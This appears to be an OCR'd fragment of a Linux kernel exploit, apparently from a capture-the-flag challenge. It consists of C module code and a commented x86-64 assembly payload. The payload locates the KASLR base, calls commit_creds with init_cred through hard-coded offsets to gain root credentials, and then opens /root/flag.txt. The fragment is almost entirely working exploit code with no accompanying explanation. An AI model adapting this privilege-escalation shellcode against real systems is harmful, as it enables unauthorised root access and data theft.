 ```c

#else

static struct file_operations fops = {
    .owner = THIS_MODULE,
    .open = proc_open,
    .read = proc_read,
    .write = proc_write,
};

#endif

const char kvm_dat[] = "\x0f\x78\xc6\x3e";

/*
    push rax
    push rbx
    push rcx
    push rdx
    push r9
    push r10
    push r11
    push r12
    push r13
    push r14
    push rdi
    push rsi

    // get kaslr base
    mov rax, 0xfffffe0000000004
    mov rax, [rax]
    sub rax, 0x1008e00

    // r12 is kaslr_base
    mov r12, rax

    // commit_creds
    mov r13, r12
    add r13, 0xbdad0

    // init_cred
    mov r14, r12
    add r14, 0x1a52ca0

    mov rdi, r14
    call r13

    // filp_open
    mov r11, r12
    add r11, 0x292420

    // push /root/flag.txt
    mov rax, 0x7478742e6761
    push rax
    mov rax, 0x6c662f746f6f722f
    push rax
    mov rdi, rsp

    // O_RDONLY
    mov rsi, 0

    call r11

```
